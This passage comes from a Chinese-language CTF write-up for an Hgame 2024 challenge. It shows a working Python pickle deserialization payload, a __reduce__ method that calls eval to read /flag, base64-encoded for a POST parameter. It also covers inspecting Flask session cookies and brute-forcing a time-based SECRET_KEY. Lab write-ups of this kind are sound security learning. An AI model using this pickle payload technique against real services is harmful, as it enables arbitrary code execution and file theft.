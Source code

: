 后来：

重新尝试，构造payload的程序如下
```
import pickle
import urllib
from base64 import b64encode

class payload(object):
def __reduce__(self):
	return (eval, ("open('/flag').read()",))
###原本这里也写的/flag.txt的，看完wp后删了txt试了试发现可以！啊啊啊啊啊啊啊啊啊啊啊啊！！！！！痛苦！！！！！！！！！！！###

a = pickle.dumps(payload(),protocol=0)
print(b64encode(a).decode())
```
这段语句本质上就是构造`__reduce__`魔术方法，然后将要执行的命令pickle序列化，再base64加密处理，最后把输出的结果贴到`pickle_data=`后面post传参即可。（其实就是把前面分析出来的app.py的处理过程反过来）

![最后成功了。](/img/Hgame2024/Week2/15.png)

对于其他小细节的研究：

	eyJ1c2VybmFtZSI6Imd1ZXN0In0.ZcteaQ.c9lMyjsOph-sEkwoxMqB9TzqwwA
	eyJ1c2VybmFtZSI6Imd1ZXN0In0.Zcthhg.ijiHa85G3dwoCC08Wlk6koLtEiI

尝试对比后中间段时间戳刷新就变，与服务器最新数据的时间有关。

	'SECRET_KEY'=203048

尝试刷新后用新session爆破key，还是不变的。但启用新靶机就不一样了，说明app.py里所获取并赋值给SECRET_KEY的时间是靶机开启时间。
